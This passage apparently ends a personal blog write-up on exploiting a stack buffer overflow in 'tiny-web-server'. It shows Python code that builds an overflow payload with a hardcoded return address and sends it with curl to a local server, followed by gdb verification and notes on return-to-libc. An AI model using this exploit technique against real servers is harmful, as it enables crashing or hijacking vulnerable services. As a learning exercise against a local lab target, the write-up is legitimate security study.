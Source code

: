 ```py
filler = 'A'*int(buf_size)
exit_addr = pack("<L", 0x08048950)

# Build the payload
payload = filler
payload += exit_addr
payload += exit_addr

# Send payload 11 times, 10 for each child process and 1 for the parent
for i in range(11):
    print("Sending payload of total length {}".format(len(payload)))
    system("/usr/bin/curl localhost:9999/\""+payload+"\"")

```

To confirm I landed in the correct location, I started tiny-web-server in gdb and set a breakpoint at `exit()`. 


![Starting]({{ base.url }}/assets/images/gdb-pre.png)

I ran the exploit code and hit the breakpoint.

![Breakpoint on exit()]({{ base.url }}/assets/images/gdb-post.png)

## Finishing Thoughts

Overall, this was a fun exercise and it got me thinking a bit more about getting around modern exploit mitigation techniques. Given the non-executable stack, return-to-libc proved to be a good way to circumvent this protection. I plan to use this bug to practice a few other techniques in the future. Since there is no use of the `system()` function in the code, spawning a shell proved challenging, but I imagine there must be a way. 

